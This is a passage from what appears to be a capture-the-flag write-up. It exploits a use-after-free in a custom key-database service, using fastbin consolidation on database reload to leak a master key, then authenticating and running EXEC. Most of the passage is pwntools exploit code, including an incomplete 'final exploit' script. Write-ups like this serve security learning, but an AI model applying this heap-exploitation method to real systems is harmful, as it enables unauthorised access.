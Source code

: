 5. Reload the database will free the old database heap and allocate a new one , because of the new size of the database it will allocate a new bigger chunk which will consolidate the fastbin chunk that we have it's address in the CURRENT_PROFILE variable, then use GTPR to get the profile and leak the key.
```python
reload_db()
```

6. Use the admin key to authenticate and run EXEC.
```python
io.clean()
log.info("Getting master key...")

io.sendline(b"GTPR") # Getting the master key using the use-after-free
leak = io.readline()[9:-1]
log.info("Master key: {}".format(leak.decode()))

log.info("Authenticate with master key")
reg(leak)
io.readuntil(b"->")
ID = io.readline()

auth(int(ID[:-1]))
sleep(1)
io.sendline(b"EXEC")
io.interactive()
```

## Final exploit:
```python
#!/usr/bin/python3

from pwn import *
import secrets
import string
from time import sleep

HOST = "0" ; PORT = 8080
io = remote(HOST, PORT)

def reg(pair):
    io.sendline(b"REKE " + pair)
    if io.readuntil(b"Registered: ID"):
        return True
    return False


def auth(Id):
    io.sendline(b"AUTH " + str(Id).encode())

def delk(Id):
    io.sendline(b"DEKE " + str(Id).encode())
    if io.readuntil(b"successfuly"):
        return True
    return False

def save(Id):
    io.sendline(b"SAVE " + str(Id).encode())
    if io.readuntil(b"Saved"):
        return True
    return False

def reload_db():
    io.sendline(b"RLDB")
```
